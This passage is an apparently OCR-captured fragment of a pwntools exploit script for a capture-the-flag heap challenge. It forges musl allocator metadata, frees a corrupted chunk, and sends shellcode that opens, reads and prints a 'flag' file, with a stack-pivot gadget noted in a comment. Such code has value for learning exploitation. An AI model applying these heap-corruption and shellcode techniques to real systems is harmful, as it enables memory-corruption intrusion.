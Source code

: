 ```python
meta.last_idx = 2
meta.sizeclass = find_offset_fit_class(0x100)
meta.maplen = 0
meta.avail_mask = 0
meta.freed_mask = 5

meta1 = fakeMeta()
meta1.freeable = 0
meta1.mem = libc_base - 0x5aa0
meta1.prev = 0
meta1.next = 0
meta1.last_idx = 0
meta1.avail_mask = 0
meta1.freed_mask = 0
meta1.maplen = 0
meta1.sizeclass = 2
add(b'fuckyou',0xa9c,b'a'*0x550+p64(check)+b'x'*8+meta.payload()+b'x'*8+meta1.payload()+b'\n') # 3
dele(2)
#gdb.attach(sh)
sh.sendlineafter('>> ',b'4')
shellcode1 = asm('''
    push 0x67616c66
    mov rdi,rsp
    xor esi,esi
    push 2
    pop rax
    syscall
    mov rdi,rax
    mov rsi,rsp
    mov edx,0x100
    xor eax,eax
    syscall
    mov edi,1
    mov rsi,rsp
    push 1
    pop rax
    syscall
    ''')
sh.sendline(shellcode1)
sh.interactive()

#  0x000000000004bcf3: mov rsp, qword ptr [rdi + 0x30] ; jmp qword ptr [rdi + 0x38]
```
